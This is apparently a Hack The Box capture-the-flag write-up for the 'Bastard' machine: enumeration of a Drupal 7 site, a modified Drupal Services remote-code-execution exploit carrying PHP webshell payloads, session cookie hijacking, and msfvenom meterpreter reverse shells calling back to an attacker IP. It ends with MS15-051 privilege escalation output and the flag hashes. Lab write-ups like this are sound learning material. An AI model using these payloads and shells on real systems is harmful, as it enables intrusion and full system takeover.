 ```yaml
---
layout: post
title:  "HTB Bastard Linux"
description : Knowledge of PHP comes handy,other than that enumeration is key!
tags: drupal, php, session-cookie
---
```


# HTB Bastard

# Recon
Nmap scan
```ruby
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Gobuster scan
![](https://lh3.googleusercontent.com/GaFlr7GWx5N7rb7y2-vSaXl_qOI3ZlnZrAanwKRIkyniOkkaPB2zGRrVrG2JCO5ef38R_C0CnDbchWt-apnuXRWa6JEX43MtH0IvRhLIICiY2Yz_LcjCeE1ZnnQCSRSjl4Hc3ZX76PtwazQFq3377eGVr-TD06s88fSMjZMZTrM01J_S_VOIZsrVIP1rR_qDF34KbkzZjV0mww7GSNzuOKLxicLKkmsZo4UiTr8XTi3jC7upES-QnHrkSjC9V-3tdnZJ5oUO2hPrS4yjWwMLXAzlNJBZVlJd05wk_-ssaU-2of4lywP8s6kTa2uhDun4MK2oR7eGRXxgdGU8XEvDR_YHZfJV6xqXkkkyjduHiCXiO-rbt0US7Bd76cjx9n1ah2eiBy5mIhcFxh-FVuBz3sWzDLLInO5fFPT-jtcdU5yKk4B2UKTeAMq2uc3HboccrLshIXwCBCA494rnHStO67WjSz4JR9UKgiFasZpvxi_QZ9ddHvdKnn4Ze1_GN43TOoMaLurneVuGh2o6tVv_nguB1bCUWuLjJQVB9mtJNKp0jgUwDt-cnZvuofL5PnVYnNcM_Zz8eoEmhJIHkIwUSUqX7GFNOjj76p9Dqi4QX6yH0i3u6OJ3Qu05PgP1i_ama4KnjsDVaGp5N-yWOa3XDX1pR9RzdeZ6T5cCdrOf5YoES9N4MtR_QPo=w368-h255-no)

Nmap indicates that a Drupal 7 is running on port:80. Further investigation reveals the changelog file.
![](https://lh3.googleusercontent.com/Yeesj-3PsnWGJ_xqpyM1XGCwZ_sxMTtcLND1FYB4hJr2EsoknRs7cEGX4mD8BU9y70P44iC1BDqPeSOZz59_YUN2neCFoSpEjlxA5LJdY224klUO0E_Yr48EhtNAvc_dofSeiAqxWzDp7FFlrAlJziRXmEwYqZzlqCULm_c6R7zgdQuj4qs2k97ifJr7aGZ0HSXqOh2FLsCAc9Qp4OtZZ9H_f_FL6AI9_307z9Cjz9bveC-nC2Ic2kMQpL_SrMcXxz5JGIke8eHnAdATOazx-P54PSPMnkY8Lk5FXJESnCvtaoPLh_H8AVDB-iTjKLBkl3xf92AsYgeygCTTcVs01-Kv-9AFHoWIh9gdAQ3uaPJY2xCyH4ol7qF64bzoMT-jA4ih5UB3R11-Wm7yVfbgXRWXqInf39C75csOZPFi5-_Tm4Ogv_sA-rLvmxnBVpToU3-6LyCy1W9Zpt1k7sBC1cg_gpcsi5ZOa5seIPW5gFmIHRlI9ZAUZW1fNpD7ZK4HPXy2_8PsHOVVUjeUFmfJcOhD0eTufwooyblwEGaWAFe0IOo9xrmm_Cd591cDIrlBAbpZq9fvmhpn2xwtiPjpO7X1H35SI7hklPPbh6bOuS8YGI6zrR2EXfvaKbDegmSf_KqQ83RjWmuPG_KjLSdUxGIi3d2w53iOfCSa-Etf7le7NGHzc8zEk7Q=w532-h266-no)

![](https://lh3.googleusercontent.com/VB7NUY3pt-vYtFz15oSnfHz9B5ShufrG73oMbDS-RdBhPVVr1Ob3gqv28Fy-69TgcNx0_6v67Zv3N9MMWtkLgT2i96YJsSdYrdhNDTE5NsV5ttkL-vUP6DGSx9SZuynkc4MHlY3DP-tG8efdqQv_D7YVCpIR157_XlH1vSkUIHGa3dVGAhYaUCh0FWWMNf_ZOaFyy-xiqL0OE_Ryz4O_-TpdAW1THvcNDLeoWVsDiDRq2j0cRzEyFJnB0tv_-Yfwhf8EkQIhxdKBBse7pITTJjZdDi1dJZ18Y0PB_VFyhWHtY4gpZKgGmzxo5rylV3yuT_mfOyQOltidwtb6Dts9pq_Yc0kZD1Xod2GKG6jBWh6x4T27qSr16MZDrdzqJ2xrtykv56tjhS1qz5Ae18XLf4yObNz-TQNH3QQ8p_WifeAhYQXEHdTk_Xrlgib7SOl04UTOpwu_lpUXII_SOU_keQKGLew32jY5aq8Gu3pRS8Ctk68c_FwYhXAzQSVt7PRumDuo1X3o5dQ1OMV5rKwgf6Fxplml6Ba0zpu624RJpi2Y3qXsDLKrllTnRpfOv2Ok7KorvuwnLuzFdDc-FXn-8d92MZ10clLoCSKJ1b5tqIyVFg3J6wY8eou5x-Kb1CeR9HSUNDS6BxrxWztuJ-GN_GOKzOqdb9axwIZND-5d-Zyr9OF4G5EEK2M=w559-h331-no)

# Exploitation
According to the changelog file the Drupal version running is 7.58. After a quick search we find
the closes exploit to the version
```shell
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```
![](https://lh3.googleusercontent.com/9lstBWfm8oaDaKy99l1tD8hJOq_d64IGWmu0a4RgeDtp7DJC-6L0xrzmUCx4URVSFJVnkEgZt6xb8QaTfECurCQUgF8vl-xpwfbgPDm_1n_qjW32P7S7iPkPnEWSMy_gSi6n06Di84Rm75syJ3P0lKovRketWxPvVCwudFYoqSZ5TcCn9u8VyMTU_likTOOElJCuJyjRw3CWlp02WNcOXAeL1qwGx_HT_36jfM7ji6wsfRZIHbLBIbLjZEdG5rWbXy9HCyi__RnOBIposVdcDHcQPV6by9h1vM1E4kA4YpYLrc5iiKXLHSaFe4rzlzRTzUlzQbb3GnHewuj2GDMeGaflG8TC4WXekLQofJ6b_Hklxk5stM-MUtympGNC-CvmFVmvcOEiGxBOACTlAB42RBmNM06HU3iEuWFb5Q_NAJ5_jAkQhBnAT-pNcfWR4-YOzqbxC2lbYVie3-_qvR-nehojWX2hpvjlTI8VvRb5VTXTaXjUr851icRrIJkLn5dRCJICEcI1J8RaGWiiDufxaiaC1EhgdlnXu8arpv9o8cekjspbkRyHdD2dLcN2WTFg5iEEjqT3yeBDSh577Hng1NQvXruBpUEgRY7uiSDMrZ2HsN_6irXpOyGCvKxYkLq6Jlqhi3GD6fFB-L5s4XfWFiUxqVZVBykE9UyYrxGsoDEwBM95AhFdGdU=w676-h275-no)

We modified the following options:
```shell
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'dixuSOspsOUU.php',
 'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
```
```shell
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'writeup.php',
 'data' => '<?php echo system($_GET["cmd"]); ?>'
```
We run the ./drupal.php file and it will create to two files **session.json** and **user.json**
![](https://lh3.googleusercontent.com/SMmshWsrne-XpcHuJoxK1KD2lR89U3wxk_O8VI1BVhfnHl5B-kkwkJ9W51xAYVSwi-wxJU65zXKOzF8w98NVmaRh-XxKUvkr0etYIiYnuG1W9bm3VBqOJd-V9YKsr0Bcevrqy7PRTNoYMAma6HWEOI8P_5q1fBARKUm4Ex59Yh5v2R2G4R3pLzNna55Gz-3CH24oI1xS5ykm4RMN9biEE96IPvFmdIYm2wzm-BON4_cOJTZvqrnPSU6v-63z4HN6R5ogLLob9kL2AYUb8gmrpKXU_W1-VJqkRGhxxY5dnO6JMGjyDp-fX0LjrFe-daIIl8O1yMkD-bqujqYSQYMb1xvB8ODxEgWGm-VTJ6RuxLVUM3CyGJpULFFUWQGeAaqmWXiWawlQNcS0Upg9sZfJhQclbyAsDnjVF69kbcRlFqIKdpJJjrCAPAHQ7urTQrDfSas0vk-iCf9i-_WtL44g2Bylz1ZZXlG860bTGeTFCQt_IVOOeROvNBCzx9NpKgqvKoJxZTH54iNTnWdQ0FiZfes5WEvc7iweOW1iC4W0Y_FNj3BaJQ8BBnlpqt7RBf0YlL8ehQwU6GJkHfPlDGOlBDtL8qKX1ndZ-JQnZlzW14QCdsLD8CmTGVrRpJnSZziHBBp0UBjktwZbtWre_4ByvtJSdq6Vh4Nm4DlcN_8uiHa0LSXKEFKSOpg=w390-h199-no)

![](https://lh3.googleusercontent.com/5LEVJvjFIrM7Tiw-TidUiLTpx5E00I4SLhHmbXCtiMhYgZNPmnsjwCpU6rAYu7-s64eiA9J1LActK24HINMLsgSV_3lJLo6rSSK--VJsEfTK4cxVOfPX3IKbIEZbNBZPKYRgBgoSUiaie3rft6FZGAR-2XzEQcATrYp3-ExRW5Q3Kejw9_RLHCNc6zW7xGXpx06Fvr_u04hiOmFX_M0X4Md7k6l_OI3HV0h0vHS1vVQpiE5Pea38ftmwWkhJPtGCnB9IIJn7TzChcc4wFRz-m4RjS8oU2lQkRIFn-ihtu6nD2tLzhAUMXQJZMq8WY5z3n0XuNiiV3wwSk-WUdDfmR5CCLvGUcmi-lQMG2PkWydQnvVQ9jdMG5SlTbfoVrc8gxgBrJuwu8YSn4zqApPw3sJYdiaFWFNvyoCgOYqYvDdCw4JdQc2tl5KcGmhd7KyfZ1hzIYYsmpM1sc7jcr783PnswhV30MhFthhd6adUYjWoh0sTmLxOUckcXYEx1ss3c2n-UqIKo7Lx-wfeOw3EbK5fZuSsPo-dm-E-yP1kr9ayb90FpK-4Q2kaar9MLJnllC3UOmvm4Unwn0crlb0BKTlFeocXxFRdqqDQj1zvweT_k7hTRt1RzeIOFninvBgjTbYRXENeCD5pVQr_Z5md9FnkNkZSnXKHq83RN3JbqKB2Kbuaph3Nj9sk=w584-h128-no)

We create a cookie with cookie manager and we use the session ID and session name from the
session.json file and we login as admin.
![](https://lh3.googleusercontent.com/FWdpEek-l4QGWD21HrN386secGE9IxiA_OVvGwEOH7A7JxrdeJRyKv_kxLrxlCCSYmTtR-udboRR6QK9LcJNys4vQclROwHpkAFIprI_g3z1Pn275JSQf6PkYjNwpciUfktV5Iq5msSUnQdqJIBWNJeA1GOs8L9yE-DgqlxgxoRMO6x5EJK9ZVbp1TcwndqBnqvdy3tIweC8wu2THJz7z_vvQLv7uy-dsjl3z_L0HIYXQB4vS8eNEisp22CnIjHuAMlBEIcgCba2EkRJwEOEfzCw0V4P-T0OqSyo6J3N7h5OVdCtJaJHvMeM_Xzd1A53CkeNShdDDc05umpafeRMJKqzdcDuUhc8790jOy1IDfZ1ILSVFA531KC3KjKP9lo8lMUXCsho-0Pf2B_snSkYXzA0BHkY4qKZJN4-Pdj6yWDXoeyWUKX6w3hCDJgRyUx6A7JwWq4TNVUlRobXrO-fCQrvKZPnBi6KHSnQZ27-9qQ1TAewuUYdcz9EktLnAKPNI6zu4HThNwp4VK_gcbzFVmXwZQU1k7KJ8foN0ZtWKhrf2n389avKxu0d643lyffXz1SvMGHG4rQQ2H8WcJCVzw01nfBVzPPaDE3qzD-5e9kPpNtOIZmcN17Avhj0r49ycan7cZ_RFx__mHX96v4TeaABukXl5nGs8gZeaEXxwc3cjcvO1V5JaeA=w986-h386-no)


On the modules section we enable the **PHP Filter*
![](https://lh3.googleusercontent.com/nqxJ_UNATvG5iBxalGd0kLEojyGOwa973A2M-zjq9lLStWqZzAMxlMbIO11VoDh8NDS8K88fzg-3LDnwFoVo-9P5fMTT80Z-7E6UfgMv0TfW4mm4CCJt_YOMXKpeQ_lXuh45zYpgZiiEcFAwPIphzDOJAC_si-jnqQVdMFBLOv8HksG-nYkEmqnO6F3oTch7bCNtJTBXp6GhI8SA5jeBqmi_kLJIoG4xDT1dlSQeTUTaLL5rLlId66_FILtoo9UZmWuR-N62UkhiceB_cE_u6gLPr5fO84E1yh7v-jkSmg2nSlk9Zhy7bJ2qgY2i7EA0D0tEcXPFgF7LXCoqZUa-CDOY4KMave_YxmbpBe13MMwnMqTaKhwVOE-EmoNiXmRC1Y-sF-CHozmwnMJyHdTQB-H6vi8Akrhe6wVh55ttNbElM8Oa3P4KOuDotdxSOAT9GsofZsIgsFXnM7TEUBRE9xW-G_pHgZD22lEhjJn8XZsxqjx8IR4z_aGv06-w3r96TK3xb0cclh41hh4IIWp7sIvvAEt2-F1dZefou00iPTPeaNccDlscnljL1xxCBg1evMnjz9eUybJ8VYArv-kPaOMQM0qzWAav3W6A693qGe2om9omIIIyJLx7BJ7_pGGMLuQ6NWV-iL7B0u2eu5y4COVATCqElmWvx3gn6YmMJ0JrgvE7mW9hZjE=w843-h93-no)


We create a php msfvenom shell and we execute it to get a reverse shell
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e base64 -f raw > evil.php
```
![](https://lh3.googleusercontent.com/QGc0fa1RgZl9a6ns8wJpGesn-jZrLbiQmAF5aVath8_4EWgBLoexsuW3AOsYyA24htM-9DZFNHmmbffO7XZL4JeD1LrY7Z1fVnJ6euJFbxSeYv5W0ZkPAdBKEPR9Y2WewjzgjWaQmjAjm-J8UA9-Lx5VIBQc3p8ycsmHIdBZl_dUOgBscp6UOaa8otyC7AoWaXajuYjsbrH8KRTGrSKogCVODNmHG03xMDq5MFihoOxipaeAAdd-T3sV8qce-Gl91gaJw5JiWgEFi_R_TwmkgBR8vzYxlpEV87SQsgTciG-5bAuzxmHLmYsl9LIkmpgLNqPYfyITNkQTTXM7Xh6mFTGUQz6L07L6htETxdwuHN8MsaguMbEnu-0nN4FK25BVbfven75Awd2wayESjrj-edDhbAv3Px8qx6DTf3Ydx5_nGsBG_MIMAV1QC9AyFkcVNodlgJhB-oBfNbNKKv_ZmzJzN7re0-a_Rxp3Fq5lBfy92xqA3OG8xWioV63UkOH5fy3MAb--8VEqewtKM6lLDb6f8GCn76pSGmeTbKQOQM7HotuEYrKc8VWT68Rkb5WCTg6QuIkiZz123HbTKnTreMZw4ZOG9yZ9u7_eGgLe7qLPHTLloVU1P6yrNQqXkcIFedEEHPlc4EnjwtVsS7_WM-eClbmhK_t8q2yxa2ydvQETpP80dxkByhg=w1126-h179-no)

![](https://lh3.googleusercontent.com/VFHh7am3Klejtbn_HPd3Dv74BW-29ig73ZdRcCpzmZ5k7dikSE1e_3C-2mjrw6oudAxyxLkSPygKbVu8UZnIBAViqtvhpNC2IcQpr0i7zbJeCGKxZRwQi_Q2Jxjwgb4BMeOtZYsp3ZLQ0yPBlOmHWgW-QdrTHM2slDp01O06kZPdXWTIJP5xDamD0i6pEL5_cewVqB9TIvAsvyPauxQtTTaLRFDvg5JpBCz3sJx-aFh5wmq6ihGNFqH4WKf4OWZMkwh-jr2MtfbkqepsIayHTfB_rnOENyJWn0J3B4BMvz2VRyj0PKv8R3VZrIUcBWvLI6zxlzL8AakevTC9887WeKWeU8mrpqHvlPdi3hi89EF-H1HBDRU7H7mMEg8emDVQqwKc6E4e1LQcc9fJJwQ_TIIJaGmvPXHUbPXiUqMMT0eYW_Rgnlji1u_WrZoUB2Wv5DX7SJlgTxS3yA6yLFOvGjwbRyTDj3i-pZ8a-WIDl-nT-gzZDnzZL47JuvTSxATsgzgce1HJLIBaVNiLsdfBvSYtappbyHVL5Eq2h2zlOez7sPcbKPIr5UqngokTd4TAeYkhfyGjPA89RX04DNxZtFf-gQ7QcgRmBlXqdVoYfD7v10gAomRGP_y4_FTxiGcRw_L0Izzc7g6-Ofo_9v-illxW5JFMNhiEgfXycxUCJAkXaf7m33lgImU=w492-h156-no) 

![](https://lh3.googleusercontent.com/S5sXZe0Qh6mCkJsuKAr8IKe0ZMv9Ib8mOq8Cnkl0q2wDr82kybgdB1XgYv8F8C7Gu99PAN7H4JeQ6Wfax1xz1SJCwXxC7XfLfVhNkvXjthI4Z4mh4JftqdnpBp6sDWqb_yUfkhMnwkxjqf-B35SUJERjWbJYyosWpWtNJEnZ9Srpb9cLs6L9DLKc2YPR5jqpqe2xKDuXC5Y3bG8ZpGb_1qJZYBS31nUp8mhmhw12uh2w_N2z7aiRFbCP8-Ur3FeQVNwH3HO-6aacVwep0okgEQi9qhKrcNyEmfGSO-gZvQQcENqvoqA-Z08FtV23RA7nWEFdxFpJ6lLi-8e5yi5KOgvh-7oG-QINPJsQ8Mwvsdr3T_sQ7D6OVQe25Dc0c47oSIE8lHMuUKnhsqq0AAmW0GdiUvJFnn6sv5WczHU2aq9dpjWxX5gjYnKB6C1AL8nkU6sIArF6T-9kztigFgU-LottydzOnoA3qMojJbenpnjLmw9cphIXqK-f-eZ28Uj92ayyVrR3DjWrlZMjteyo5Ex-S-tHZtSpKuv2h-fuUgEztz5Y2kTKLWrsdTgdqRevODdNQaEKdEbMoqvXYvBrwPFnz6Jx2nj8rFo_MZgW1C2OPbjNyszwGqtYwJYE1X8qmb-8AccySIo3K64MWeK-J9oEA6Wt4QkiXGPnSk4K2IJ1NFcmFjiZcFY=w446-h145-no)

However, shell is very limited and it crash when we try to spawn a windows shell. so we create another
msfvenom shell
but this time a windows/x64 as the target machine is a 64bit. and we upload it using the current php
shell
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=5555 -f exe > evil64.exe
```
![](https://lh3.googleusercontent.com/MZ9qE-DU4oClL3QslcYQnUXOyiv3njiZ_XbmDwIGDfEwzvEtpv4jbIWKEdhBxeXGDYE6funaNm9SyWhrQNdX6J0ctv_a7-HhE6XPTqx15bjO4jDvc8aI57zpZYuKoU4gmBQJ0KiXEepIAMfvedm1D_z3iV65aJokfs8rXMrlcEfAHKBJ0RizB7ACqfMgNkNnTkdTFQ_bmgyuxw5jj4Xdm4BR24SqKocgqxcYtI5JLbtsGYDk8_rtHKeEJ0Eu32qNDSP3NtKNb-gQxOB3mYQNq6QretWLELD-n9RNEnwPkZNMUJpZZqayPB6b6gbKXjHzTalVM2_UR0bAZGGstllueS8k10_8wfsBl3Ap6tSIiEul8lQEqDU4N-bUbYspOSRbeuNX7VgCkaMSEWdX2R6ItuXo8ZGRycQYIRvfKm9TcqQf_xe4N_QbhYklEpRHuuR-2o6TGqkWPZP0lu8lD90g8S4POMhOQTrUMC34nPLWopw4OR6MySkfVxWI7Pt8tcJ4KwUvZtwmO4f28Q_TpFWPpX4OQlNDFHK7aIeJuwWK8X8Zm59jQUva5NtZ98RpydrnJWdPdRbf6FLXyHGVQL-AuDw8Y8Se7TCiCbryqzpeKOpJlkAGX5s6XWeClbUIWt_IUljPJoi2AkPuywjC40Dp06glIGG4JGtbvK-U8viuzZIZMr_qacGwkHM=w679-h395-no)

![](https://lh3.googleusercontent.com/s343Uk5g9pk_Pht53oplofawkwPijfvmygzwqbHYisFqVNCKnI6BmCzAS8Z7dxBQWg-7f0DBH3kzPBiKSeGQBJUt-v9m7fxbLyvt5Hy3_BbxyxVUq_BpPeIvzB7ayaPb1u2_6nnwwI2T-T9bNvJwKys-l_qzmIkZNgYe9Q3jLRgcpD2FzLNsOlTWH-Edc1YWj62IFwlcHckOLN6WfKCXpl6Ikogzc54mRRoes3Droy5C9A86cZ6PG22WOnMknamD9rfOhdk9RZP77QRt0z9nhMZ5_uXaJxKN0mAZMnkERsSPECx0tUpBG1JA2ripOAt-2aasrTzz_4Az-GTh6wqurRh6ZOJ25RBAM8YwA01Eyw0js8TcWbBmn5c7cj_JaBH9NJ3wng6Q88wgdMqzDJ1UEIDEHbgDNftBIWaDbwxZ6_iMObt24fuqP_6fQ2_UkWoV3ntOBKjKqlT5QffoQTYKbIZhAlUPtHi1A6f4Wn4bZaRvVFD2pfXx9mDJzuqfkAeZTCmXhjGfVM1aKZWpgvYwbpTNFHT5XMjMbGM-KwBkG14HDsheLxQbTf7CBoynE4H9yfsk6q4fDHUd1u44ZZAAtqzvjvE6BHf978e4VT95JHr3gAQ-dVDgc6Pc6BohFfYTE1s_NPVeYxHG_8NfakqLqSPaWGtO9BrNRoFvWLXtIDpoSliwirgkNzU=w713-h160-no)


# Privilege Escalation
After running windows suggester and trying different exploits I finally find one that worked vuln: MS15-051 CVE-2015-1701
This exploit let us pass commands as system authority, so by passing the command "cmd" we get system
priv. Ex
```ruby
2/2
C:\inetpub\drupal-7.54>exploit-bastard.exe whoami
exploit-bastard.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1500 created.
==============================
nt authority\system
C:\inetpub\drupal-7.54>exploit-bastard.exe cmd
exploit-bastard.exe cmd
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2588 created.
==============================
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
After some google I came across with a compiled version of this exploit, so I upload it with meterpreter and execute the exploit.
![](https://lh3.googleusercontent.com/kwMV2s5feygPwMnyf1rxzqQQjoGG508wb4Xo13huKmGP1TkJtEGTovARb-UHok-weztD_uhPxZ1T0HNBwvFSG0T4GcZcTHeCQANHn6OUolmHUcBWi_SVkpbwHKJcS89V3aZLRG9-zyE5e1kDkiiXehiUAxxQ-NZay_RZxn4mgsO2fBojLolxZhlv2i1G_ulZXU_gpcwhbDPH3QrAdBVAYquxz9A_1vQnSyPe6-239cspSo0Qi4ErjKCmYT6ea1ingVKOCMpzebg1XIeQ44ZhWcUBtlNN-BzXRKATKBeKKQqnLKWVO7-gqmiaX0r3ConQhwYIewvwINYe6UZqAI5v8s35eluuxra5-mdIk5noj50HH_bcFQllYEiqpUeZtPtqtn-OiyszxzIct2CtBGnd5JWu6bgj81KU3drHn6r7qQtCJDJoVyNjmyYlazR23h6O7_FMztv8z77HnDUFRaNjx3_kfHiPXnj35fXbaWMUo_A3w98qruDnDYCY7HfhGiTBXVfk6HMKFMuXIr88O8VETe0Wne9rffkFgK6X6UaoHMwaSvZXzQ05-hLrmQddonHzG-xdT6IftPmocKOkZpeQaju26GeqyQjit7rWgD4JbVEwtAdpZ6Xn__AtNrXiRycbasN1CUYNSsxqOKvyPS6jlHh0BC3wXJcTZHT4hW30kcWoxjTu889FNnk=w652-h89-no)

Finally we got Root
![](https://lh3.googleusercontent.com/Yx-CDF87NocbY3V9tB3S1BU6ObNyVA5fF4Qe99E0SmWHxsge9O80XCjx656LGa6_CjVfF_HsmEmuy9Kvc75MGAhnPDrtaYR0zJqWVbZfD5mDoxAJMrrfwyLf21lqdLQ2By1M_F0jiGbrt5ScS--L8bu4VkH2Mk5xpG6DqI_OqS8DmrHVSbF3Fq8EhTHm1b1X_JYmZ7WKgS8UUTQiwtNVKIU9qsz2dOBvPjeccN3bfgwyNwrZEXbyUVKt6tW6Zm_dN8AHkQDrRZdB14qRUVWxIyvfliByVrqx57THulBp_J-PIuiMvFKa3E7FB3vIfdRlTI9GXKcpZJ5P1l2X4FovQvrS7ZLnXM0rqHQXh6FYwdRpgFivsJw0PlAgVj7eJwBclZLVdz37d_iiOoo0iCAVdeeLEpxd2g8PGxynUJSO2u436ViByCyQx9wL3jOPwHa1z5vOl7avUlwz2T0p98XevPmF2v24Ft3ejWb1szVxSHHn4HKxYtSoYAwRjI3nL7Dk6eWfD6mDCiFqJJQsiN6cRM0jjP9E_R56WItJYz_ZXujE5BWek-GS5CIKGK7tCysBF8SFNI__1otQZ_RjpSYAY6aNx-gC6yq75JQVpwKV_503zPo7HojhyW_y1jho7JCEeeHh_YfF7qWkz3nmoTSoAAodFetIUe6Nwcb4ElX7xpkJ9s2qkkKdW7s=w630-h355-no)


```ruby
ROOT  "4bf12b963da1b30cc93496f617f7ba7c" 
USER  "ba22fde1932d06eb76a163d312f921a2" 
```
